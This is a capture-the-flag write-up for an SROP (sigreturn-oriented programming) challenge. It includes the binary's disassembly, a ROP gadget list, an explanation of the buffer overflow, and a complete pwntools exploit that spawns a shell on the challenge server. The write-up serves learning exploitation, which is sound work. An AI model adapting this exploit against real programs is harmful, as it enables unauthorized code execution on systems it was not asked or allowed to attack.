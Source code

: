 ```yaml
---
title: ASM
date: 2023-06-10
author: sunbather
tags:
  - pwn
  - srop
---
```


## Description of the challenge

What can I say except, "You're welcome" :) 

Author: NoobHacker

## Solution

The binary name is``srop_me``, so we can assume this is an srop challenge. The binary is so small we can just objdump it. Seems like the source code was written in assembly.

```asm
srop_me:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <vuln>:
  401000:	b8 01 00 00 00       	mov    eax,0x1
  401005:	bf 01 00 00 00       	mov    edi,0x1
  40100a:	48 be 00 20 40 00 00 	movabs rsi,0x402000
  401011:	00 00 00 
  401014:	ba 0f 00 00 00       	mov    edx,0xf
  401019:	0f 05                	syscall 
  40101b:	48 83 ec 20          	sub    rsp,0x20
  40101f:	b8 00 00 00 00       	mov    eax,0x0
  401024:	bf 00 00 00 00       	mov    edi,0x0
  401029:	48 89 e6             	mov    rsi,rsp
  40102c:	ba 00 02 00 00       	mov    edx,0x200
  401031:	0f 05                	syscall 
  401033:	48 83 c4 20          	add    rsp,0x20
  401037:	c3                   	ret    

0000000000401038 <_start>:
  401038:	e8 c3 ff ff ff       	call   401000 <vuln>
  40103d:	b8 3c 00 00 00       	mov    eax,0x3c
  401042:	bf 00 00 00 00       	mov    edi,0x0
  401047:	0f 05                	syscall 
  401049:	c3                   	ret    

Disassembly of section .rodata:

0000000000402000 <msg>:
  402000:	48                   	rex.W
  402001:	65 6c                	gs ins BYTE PTR es:[rdi],dx
  402003:	6c                   	ins    BYTE PTR es:[rdi],dx
  402004:	6f                   	outs   dx,DWORD PTR ds:[rsi]
  402005:	2c 20                	sub    al,0x20
  402007:	77 6f                	ja     402078 <binsh+0x69>
  402009:	72 6c                	jb     402077 <binsh+0x68>
  40200b:	64 21 21             	and    DWORD PTR fs:[rcx],esp
  40200e:	0a                 	or     ch,BYTE PTR [rdi]

000000000040200f <binsh>:
  40200f:	2f                   	(bad)  
  402010:	62                   	(bad)  
  402011:	69                   	.byte 0x69
  402012:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  402013:	2f                   	(bad)  
  402014:	73 68                	jae    40207e <binsh+0x6f>
```
You can notice the program does a write to stdout with the first syscall in ``<vuln>`` (writes the bytes found at ``0x402000`` ``<msg>``) and then reads 0x200 bytes with the second syscall in ``<vuln>``. It is obvious this is a buffer overflow, so we have control of RIP. The problem here is that we can neither ret2libc (we lack any library to jump to) and we can't ROP chain either, because the binary is super small. We can use the hint and SROP the binary. The idea is to craft a sigreturn frame on the stack and then call the ``sys_rt_sigreturn`` syscall to call ``execve`` with ``/bin/sh`` as arguments. We look at the ROP gadgets found:
```
0x000000000040102e : add al, byte ptr [rax] ; add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401028 : add byte ptr [rax - 0x77], cl ; out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401010 : add byte ptr [rax], al ; add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401043 : add byte ptr [rax], al ; add byte ptr [rax], al ; syscall
0x000000000040103f : add byte ptr [rax], al ; add byte ptr [rdi], bh ; syscall
0x0000000000401011 : add byte ptr [rax], al ; add byte ptr [rdx + 0xf], bh ; syscall
0x0000000000401040 : add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401012 : add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401017 : add byte ptr [rax], al ; syscall
0x0000000000401041 : add byte ptr [rdi], bh ; syscall
0x0000000000401030 : add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401013 : add byte ptr [rdx + 0xf], bh ; syscall
0x000000000040102d : add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401032 : add eax, 0x20c48348 ; ret
0x0000000000401034 : add esp, 0x20 ; ret
0x0000000000401033 : add rsp, 0x20 ; ret
0x000000000040103e : cmp al, 0 ; add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401042 : mov edi, 0 ; syscall
0x000000000040102c : mov edx, 0x200 ; syscall
0x0000000000401014 : mov edx, 0xf ; syscall
0x000000000040102a : mov esi, esp ; mov edx, 0x200 ; syscall
0x0000000000401029 : mov rsi, rsp ; mov edx, 0x200 ; syscall
0x000000000040102b : out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401037 : ret
0x0000000000401019 : syscall
```
We have the syscall gadget, but no way of really controlling RAX, to be able to call ``sys_rt_sigreturn``. However, we can use the previous syscall to control RAX. The return code of a syscall is written to RAX. For example, the read call will change RAX to however many bytes we've read. So we could use the read to setup the sigreturn frame on the stack and then return back to the read syscall, to read some more. Then we read exactly 15 bytes, to prepare ``RAX=0xf`` for ``sys_rt_sigreturn``. Then we return to syscall and execute the frame prepared:
```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./srop_me")
target = remote("challs.n00bzunit3d.xyz", 38894)

sh_addr = 0x000000000040200f
syscall_gadget = 0x0000000000401019
read_gadget = p64(0x40101b)

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 32 + read_gadget + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.sendline(b"a" * 0xe) # read 0xe bytes because it also reads the newline
target.interactive()
```

Run the exploit:
```
[+] Starting local process './srop_me': pid 32381
[*] Switching to interactive mode
Hello, world!!
$ whoami
sunbather
```

Shells achieved.
